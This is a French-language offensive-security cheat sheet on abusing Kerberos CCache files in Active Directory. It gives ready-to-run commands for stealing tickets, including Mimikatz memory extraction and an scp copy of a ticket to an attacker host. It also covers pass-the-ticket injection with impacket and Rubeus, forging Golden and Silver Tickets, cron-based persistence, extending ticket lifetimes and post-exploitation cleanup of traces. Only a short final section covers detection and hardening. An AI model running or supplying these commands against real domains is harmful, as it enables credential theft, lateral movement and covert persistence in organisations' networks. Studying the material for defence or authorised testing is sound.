

Ce document détaille la gestion et l'exploitation des fichiers **CCache** (Credential Cache) dans le cadre de mouvements latéraux au sein d'un environnement **Active Directory**.



## Localisation des fichiers CCache

### Linux et macOS
Les fichiers **CCache** sont généralement localisés dans le répertoire temporaire.

```bash
ls -l /tmp/krb5cc_*
echo $KRB5CCNAME
```

### Windows
Dans les environnements supportant **Kerberos** (WSL, Cygwin, MIT Kerberos), les fichiers suivent une convention de nommage similaire.

```powershell
dir C:\Users\<user>\krb5cc_*
```

> [!note]
> Le fichier **CCache** doit être lisible par l'utilisateur courant (**chmod 600** recommandé).

## Analyse des permissions des fichiers CCache

La sécurité des fichiers **CCache** repose sur le système de permissions du système d'exploitation. Un fichier **CCache** mal protégé permet à tout utilisateur local de lire les tickets en clair et d'usurper l'identité de la victime.

| Permission | Risque |
| :--- | :--- |
| 644 | Lecture globale, risque élevé d'exfiltration par un utilisateur non privilégié |
| 600 | Accès restreint au propriétaire, standard recommandé |

```bash
# Vérification des permissions
ls -la /tmp/krb5cc_*

# Correction des permissions
chmod 600 /tmp/krb5cc_1000
```

## Extraction des tickets Kerberos

### Vérification et export
Il est possible de lister les tickets actifs et de définir la variable d'environnement pour pointer vers un fichier spécifique.

```bash
klist -f
export KRB5CCNAME=/tmp/krb5cc_1000
cat /tmp/krb5cc_1000
```

### Transfert et conversion
Pour utiliser un ticket sur une machine distante, le transfert via **scp** est courant. La conversion entre formats est souvent nécessaire pour l'interopérabilité entre **Linux** et **Windows**.

```bash
scp /tmp/krb5cc_1000 attacker@192.168.1.100:/tmp/
klist -C -c /tmp/krb5cc_1000
python3 /opt/impacket/examples/ticketConverter.py /tmp/krb5cc_1000
```

### Extraction via Mimikatz
Sur **Windows**, les tickets peuvent être extraits directement de la mémoire.

```powershell
mimikatz.exe
sekurlsa::tickets /export
```

> [!warning]
> La conversion **.kirbi** vers **CCache** est indispensable pour l'interopérabilité **Linux**/**Windows**.

## Gestion des tickets TGT vs TGS

Il est crucial de distinguer les types de tickets contenus dans un fichier **CCache** lors d'une opération de **Pass-the-Ticket** (voir **Pass-the-Ticket**).

*   **TGT (Ticket Granting Ticket) :** Permet de demander des **TGS** pour n'importe quel service. Indispensable pour une persistance ou un mouvement latéral étendu.
*   **TGS (Ticket Granting Service) :** Limité à un service spécifique (ex: CIFS, HTTP). Utile pour accéder à une ressource précise sans compromettre l'intégralité de la session.

```bash
# Lister les tickets pour identifier le TGT (krbtgt)
klist -f
```

## Limitations de durée de vie des tickets (Renewable lifetime)

Les tickets **Kerberos** possèdent une durée de vie limitée. Un ticket expiré est inutilisable pour l'authentification. L'analyse du fichier **CCache** permet de vérifier si le ticket est encore valide ou s'il est renouvelable.

```bash
# Vérifier la validité temporelle
klist -v
```

> [!tip]
> Si le ticket est marqué comme "renewable", il est possible d'utiliser `kinit -R` pour prolonger sa durée de vie avant expiration, prolongeant ainsi la fenêtre d'opportunité pour le mouvement latéral.

## Utilisation des fichiers CCache pour Pass-the-Ticket

### Injection et authentification sous Linux
Une fois le fichier **CCache** configuré dans la variable **KRB5CCNAME**, les outils utilisant **Kerberos** peuvent exploiter le ticket.

```bash
export KRB5CCNAME=/tmp/krb5cc_1000
ssh -o GSSAPIAuthentication=yes -o GSSAPIDelegateCredentials=yes user@target.domain.com
python3 /opt/impacket/examples/smbclient.py -k -no-pass target.domain.com
smbclient -k -L //target.domain.com/
```

### Injection sous Windows
L'utilisation de **Rubeus** ou **Mimikatz** permet d'injecter des tickets directement dans la session utilisateur.

```powershell
Rubeus.exe ptt /ticket:ticket.kirbi
mimikatz.exe
kerberos::ptt /tmp/krb5cc_1000
```

> [!danger]
> L'utilisation de tickets volés nécessite une synchronisation temporelle précise avec le contrôleur de domaine.

## Techniques de persistence via tickets

La persistance peut être maintenue en extrayant régulièrement des **TGT** ou en utilisant des tickets avec une durée de vie étendue.

1.  **Extraction périodique :** Automatiser l'extraction des tickets via un script cron si l'utilisateur est actif.
2.  **Pass-the-Ticket récurrent :** Réinjecter le ticket volé à chaque nouvelle session utilisateur pour maintenir l'accès aux ressources **Active Directory** (voir **Active Directory Enumeration**).

## Attaques avancées

### Silver Ticket
Le **Silver Ticket** permet de forger un ticket de service pour un service spécifique.

```powershell
mimikatz.exe
kerberos::golden /user:Administrator /domain:lab.local /sid:S-1-5-21-XXXX /target:server /service:cifs /rc4:NTLM_HASH /ptt
```

### Golden Ticket
Le **Golden Ticket** utilise le hash **NTLM** du compte **KRBTGT** pour générer des **TGT** arbitraires.

```powershell
mimikatz.exe
kerberos::golden /user:Administrator /domain:lab.local /sid:S-1-5-21-XXXX /krbtgt:NTLM_HASH /ptt
```

## Détection et suppression

### Nettoyage
La suppression des fichiers **CCache** et la purge des tickets en mémoire sont des étapes de nettoyage post-exploitation.

```bash
rm -f /tmp/krb5cc_1000
klist purge
```

### Analyse des logs
La détection repose sur l'analyse des logs d'authentification **Kerberos** sur le contrôleur de domaine.

```text
index=windows EventCode=4769 (Ticket_Options=0x40810000 OR Ticket_Options=0x40800000)
```

> [!warning]
> Attention aux logs générés par l'injection de tickets (**Event ID 4624**/**4672**).

## Défenses et contre-mesures

### Durcissement de l'environnement
La protection contre le **Pass-the-Ticket** implique la gestion du cycle de vie des secrets **Kerberos** (voir **Kerberos Attacks** et **Impacket Suite**).

*   Réinitialisation du mot de passe **KRBTGT** (deux fois pour invalider les anciens tickets).
*   Configuration de l'audit via **auditpol** : `auditpol /set /subcategory:"Kerberos Authentication Service" /success:enable /failure:enable`.
*   Application de politiques de groupe (**GPO**) pour limiter la durée de vie des tickets.
*   Restriction des permissions sur les fichiers **CCache** : `chmod 600 /tmp/krb5cc_*`.

Ces techniques s'appuient sur les concepts abordés dans **Kerberos Attacks**, **Pass-the-Ticket**, **Active Directory Enumeration**, **Mimikatz Usage** et la suite **Impacket**.